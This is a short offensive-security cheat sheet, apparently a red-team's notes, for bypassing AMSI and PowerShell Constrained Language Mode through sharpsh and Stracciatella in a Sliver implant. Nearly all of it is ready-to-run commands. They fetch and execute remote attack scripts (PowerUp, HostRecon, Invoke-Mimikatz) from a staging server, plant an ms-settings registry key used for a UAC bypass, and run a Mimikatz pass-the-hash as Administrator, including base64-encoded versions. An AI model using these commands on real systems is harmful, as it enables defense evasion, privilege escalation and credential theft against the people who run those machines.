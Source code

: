 # Bypass AMSI and CLM

### 1) Run a single command

    sharpsh -t 20 -- '-c "whoami /all"'
    sharpsh -t 20 -- '-c "$ExecutionContext.SessionState.LanguageMode"'

### 2) # Running a script from remote address (without args) - just pass 1 as the arg as it requires something or won't run

    sharpsh -t 200 -- '-u http://10.10.10.11/powershell-scripts/Footholder-V3.ps1 -c 1'

### 3) Running a script from remote address (with args)

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerUp.ps1 -c "Invoke-AllChecks"'
    sharpsh -t 200 -- '-u http://10.10.10.11/powershell-scripts/HostRecon.ps1 -c "Invoke-HostRecon"'

### 4) Encoding of commands with lots of quotes (use cyberchef)

    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    sharpsh -- -e -c TmV3LUl0ZW1Qcm9wZXJ0eSAiSEtDVTpcc29mdHdhcmVcY2xhc3Nlc1xtcy1zZXR0aW5nc1xzaGVsbFxvcGVuXGNvbW1hbmQiIC1OYW1lICJEZWxlZ2F0ZUV4ZWN1dGUiIC1WYWx1ZSAiIiAtRm9yY2U=

### 5) Running commands with length > 256 characters - Sliver uses donut on backend which only supports 256 chars, run within process using `-i`

    Invoke-Mimikatz -Command "privilege::debug token::elevate `"sekurlsa::pth /user:Administrator /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff`" exit"
    sharpsh -i -t 40 -- -u 'http://10.10.10.11/powershell-scripts/Invoke-Mimikatz.ps1' -e -c SW52b2tlLU1pbWlrYXR6IC1Db21tYW5kICJwcml2aWxlZ2U6OmRlYnVnIHRva2VuOjplbGV2YXRlIGAic2VrdXJsc2E6OnB0aCAvdXNlcjpBZG1pbmlzdHJhdG9yIC9kb21haW46aW5maW5pdHkuY29tIC9udGxtOjVmOTE2M2NhM2I2NzNhZGZmZjI4MjhmMzY4Y2EzNzYwYCIgZXhpdCI=

## Stratiatella

    execute-assembly -i /home/kali/tools/bins/csharp-files/Stracciatella.exe -c "$ExecutionContext.SessionState.LanguageMode"
